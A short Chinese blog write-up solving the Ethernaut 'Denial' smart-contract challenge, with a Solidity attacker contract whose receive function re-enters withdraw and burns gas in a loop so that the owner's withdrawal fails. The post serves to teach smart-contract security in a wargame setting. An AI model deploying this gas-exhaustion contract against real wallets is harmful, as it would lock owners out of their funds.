 ```yaml
---
title: Ethernaut - Denial
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-24
---
```


这是一个简单的钱包，随着时间的推移会慢慢滴出资金。你可以通过成为提取合作伙伴来慢慢提取资金。如果你能在所有者调用 withdraw（） 时拒绝他们提取资金（当合约仍有资金，且交易费用为1M gas或更少）时，你将赢得这一级别。

<!--more-->

不能用重入攻击提取完所有资金，因为要求合约有资金但是不能被提取，而且有 gas 限制。

想多了，就是消耗完gas就行。

```solidity
interface IDenial {
    function withdraw() external;
    function setWithdrawPartner(address _partner) external;
}

contract Denial {
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    receive()  external payable {
        IDenial(levelInstance).withdraw();
        int sum = 0;
        for (int i = 0; i < 100000; i++) {
            sum += i;
        }
    }

    function withdraw() public payable {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

